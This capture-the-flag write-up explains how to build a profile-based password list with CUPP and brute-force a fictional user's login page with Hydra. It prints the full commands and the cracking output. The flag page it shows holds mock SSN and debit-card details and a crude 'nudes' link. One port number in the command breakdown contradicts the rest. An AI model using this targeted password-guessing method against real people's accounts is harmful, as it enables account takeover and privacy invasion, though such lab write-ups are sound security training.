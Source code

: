 # CUPP

## Web: 100 points

## Challenge

Can you get into Lucas' secrets?

[ [Start](http://challenges.laptophackingcoffee.org:3199/aboutme.php?) ]

## Solution

The title CUPP stands for Common User Passwords Profiler. It's a python program available on [Mebus's Github][1]. 

Clone the repo and start up the program. Use `./cupp.py -h` to show the help menu. Use `./cupp.py -i` to enter interactive mode:
```
$ git clone https://github.com/Mebus/cupp.git
$ cd cupp
$ ./cupp.py -i
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)
```

In interactive mode, enter in the details found on Lucas's [About Me][2] page. More detail is better:
```
> First Name: Lucas
> Surname: Endheimer
> Nickname: 
> Birthdate (DDMMYYYY): 27102006


> Partners) name: Becca
> Partners) nickname: Rebecca
> Partners) birthdate (DDMMYYYY): 18112005


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: Lucky
> Company name: Wilson


> Do you want to add some key words about the victim? Y/[N]: Y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: Mitnick    
> Do you want to add special chars at the end of words? Y/[N]: n
> Do you want to add some random numbers at the end of words? Y/[N]:n
> Leet mode? (i.e. leet = 1337) Y/[N]: n

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to lucas.txt, counting 2954 words.
[+] Now load your pistolero with lucas.txt and shoot! Good luck!
```

The program creates a word list and saves it to [lucas.txt](lucas.txt). Use this word list to crack Lucas's login page, which he mentions is at [secret.php][3]. 

First find out what POST data is sent via the login page. In Chrome, inspect the login page. Click the **Network** tab then login with `lucas` and `password`. Click on **secret.php** in the left column and take a look at the **Form Data**:
```
username=lucas&password=password&login=Submit
```

The form posts three variables: `username`, `password`, and `login`. The `login` var is set to `Submit` by default. 

Now crack the login using [Hydra][4], a parallelized login cracker which supports numerous protocols to attack. Use `hydra -h` bring up Hydra's help menu that shows command syntax, options, and examples. Here is the simplified syntax used for this challenge:
```
Syntax (simplified):
hydra [-l LOGIN | -L FILE] [-p PASS | -P FILE] [service://server[:PORT][/OPT]]
```

Assume that the username is `lucas` for this search. The hydra command will look like this:
```
$ hydra -l lucas -P lucas.txt "http-post-form://challenges.laptophackingcoffee.org:3199/secret.php:username=^USER^&password=^PASS^&login=Submit:failed" -V
```

A few key notes about hydra's syntax:
* `^USER^` is a keyword hydra uses that is replaced at runtime with the data given in the `-l` or `-L` options. Likewise, `^PASS^` is a keyword replaced with the data in the `-p` or `-P` options. 
* The entire portion containing the `[service://server[:PORT][/OPT]` must be contained in double quotes (`"`).
* The `:failed` portion towards the end of the command is what hydra looks for to check if the login failed. The word `failed` is from Lucas's failed login page which simply says: "Login failed!"

With all this in mind, the above command breaks down like this:
```
hydra                                   run the hydra program
-l lucas                                set the login (username) to lucas
-P lucas.txt                            use lucas.txt as the password file
http-post-form://                       use HTTP POST service
challenges.laptophackingcoffee.org      set target server
:6199                                   set target port
/secret.php                             set target webpage
:username=^USER^                        set username var to ^USER^
&password=^PASS^                        set password var to ^PASS^
&login=Submit                           set login var to Submit
:failed                                 set failure text to look for
-V                                      use verbose mode
```

Wait a while. Grab a coffee. View the results:
```
...
[RE-ATTEMPT] target challenges.laptophackingcoffee.org - login "lucas" - pass "Becca_2005" - 559 of 2958 [child 9] (0/4)
[ATTEMPT] target challenges.laptophackingcoffee.org - login "lucas" - pass "Endheimer_1" - 560 of 2958 [child 3] (0/4)
[ATTEMPT] target challenges.laptophackingcoffee.org - login "lucas" - pass "Endheimer_7" - 561 of 2958 [child 7] (0/4)
[STATUS] 80.14 tries/min, 561 tries in 00:07h, 2397 to do in 00:30h, 16 active
[3199][http-post-form] host: challenges.laptophackingcoffee.org   login: lucas   password: Becca_2005                                               
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-03 16:45:10
```

The result is a bit buried, but it's there: `login: lucas   password: Becca_2005`. Login with these credentials. Grab the flag:
```
Hi Lucas. Here's your secrets:

SSN: 554-42-2123
Mom's Debit Card: 4450-2234-5531-1138 2/21 471
Flag: LHC{p0wn3dluc45}
Beccas nudes: http://bitly.com/98K8eH
```

## Resources
* https://github.com/Mebus/cupp
* https://tools.kali.org/password-attacks/hydra
* https://www.youtube.com/watch?v=CWo_mjNjrjA


[1]:https://github.com/Mebus/cupp
[2]:http://challenges.laptophackingcoffee.org:3199/aboutme.php
[3]:http://challenges.laptophackingcoffee.org:3199/secret.php
[4]:https://tools.kali.org/password-attacks/hydra